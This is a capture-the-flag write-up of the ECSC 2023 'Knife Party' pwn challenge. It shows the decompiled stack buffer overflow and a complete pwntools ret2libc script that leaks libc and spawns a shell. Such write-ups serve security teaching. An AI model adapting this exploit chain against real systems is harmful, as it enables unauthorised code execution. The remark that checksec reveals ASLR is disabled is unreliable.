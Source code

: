 ```yaml
---
id: 15
title: "ECSC 2023: Knife Party"
subtitle: "ECSC 2023 Day 1: Pwn"
date: "2023.11.02"
tags: "ecsc, ecsc2023, c++, pwn, ctf"
---
```


## Foreword

I participated in ECSC 2023 as a guest team as part of Team Singapore with NUS Greyhats. The competition was quite chaotic due to many factors but in the end it was still a fun competitions thanks to all the interesting compeititors. This was a live-in-venue competition in Hamar, Norway so I was lucky to get a free holiday in the middle of my school term as well :)

I mainly did the pwn challenges relating to the stack because I'm not very good at heap pwn, so I left it up to my teammate.

This challenge is a pretty straight forward ret2libc challenge if you read through the decompiled code. It hides its vulnerabilities in a few different functions.

# Knife Party

We run `checksec` on the binary:
```bash
[*] '/mnt/e/ctf_archive/ecsc2023/d1/knifeparty/knife_party'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

It has Full RELRO and NX enabled, but no canary or PIE.

First we open the binary in IDA and we see that it calls 3 functions, `setup()`, `banner()` and `forge()`. A quick sift through shows us that `forge()` is the function that handles the menu. Decompiling `forge()` yields the following:

```c++
__int64 forge()
{
  __int64 num; // rax

  printf("Choose class of knife!\n\n1. Sword\n2. Bat\n3. Knife\n\n>> ");
  num = read_num();
  if ( num == 2 )
    return forge_bat();
  if ( num == 3 )
    forge_knife();
  if ( num != 1 )
  {
    error("No such class! Come back when you are ready!\n");
    exit(22);
  }
  return forge_sword();
}
```

Testing the binary against inputs hints us that `forge_knife()` does nothing of value, `forge_bat()` and `forge_sword()` are the functions we are interested in. Both of the functions have a buffer overflow vulnerability when we check it in IDA. We focus on `forge_sword()`:

```c++
int forge_sword()
{
  __int64 buf[4]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 num; // [rsp+20h] [rbp-10h]
  unsigned __int64 i; // [rsp+28h] [rbp-8h]

  memset(buf, 0, sizeof(buf));
  printf("\nThe Sword class is pretty accurate and fast when carving a pumpkin!\n\nChoose length of sword (1-5): ");
  num = read_num();
  if ( num - 1 > 4 )
    return error("Invalid length! Come back when you are ready!\n");
  puts(asc_40104F);
  for ( i = 0LL; i <= num; ++i )
    puts(&byte_401056);
  puts(asc_401060);
  printf(
    "\n%s[+] Here is your sword! Do you want to give it a name for the contest?\n\n>> %s",
    "\x1B[1;32m",
    "\x1B[1;34m");
  read(0, buf, 0x120uLL);
  return puts("\nBest of luck!!");
}
```

`buf` is initialized with size `0x30` but at the end before `return`, `read(0, buf, 0x120uLL)` allows a `0x120uLL` size read into the buffer. We run `checksec` against the binary and find out that ASLR is disabled. This means we can attempt a ret2libc attack.

The offset for the bof would be `0x30` (buffer size) + `0x8` (`$rbp`) which gives us `0x38`. We pad `0x38` and do a ret2libc attack, building a ROP chain to leak the lilbc addresses. We then redo the same thing but with the leaked libc offset to find `system` and `/bin/sh`. Build and execute the next ROP chain to pop shell.

pwntools automates the process for us.
```py
from pwn import *
from exploit import *

# set exploit source, context binary, context log_level, libc
elf = context.binary = ELF("./knife_party", checksec=False)
# context.log_level = 'debug'
libc = ELF("./glibc/libc.so.6")

# Run binary 1st time
p = exploit_source("./knife_party", "localhost")

rop = ROP(elf)

p.sendlineafter(b'>> ', "1")
p.recvuntil(": ")
p.sendline("5")
p.recvuntil(">> ")

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

payload = flat([{0x38: p64(pop_rdi)},
                elf.got['puts'],
                elf.symbols['puts'],
                elf.symbols['main']])

# leak libc address and calculate libc base
p.sendline(payload)
p.recvuntil(b'Best of luck!!\n')

libc.address = u64(p.recvline().strip().ljust(8,b'\x00')) - libc.symbols['puts']
success(f"{hex(libc.address) =}")

# ret2libc
p.sendlineafter(b'>> ', "1")
p.recvuntil(": ")
p.sendline("5")
p.recvuntil(">> ")

rop2 = ROP(libc)

libc_ret = rop2.find_gadget(['ret'])[0]
rop2.raw(libc_ret)
rop2.system(next(libc.search(b'/bin/sh')))

payload2 = flat({0x38: rop2.chain()})

p.sendline(payload2)

p.interactive()
```

Run the code on remote, pop shell, then simply `cat flag.txt` for the flag.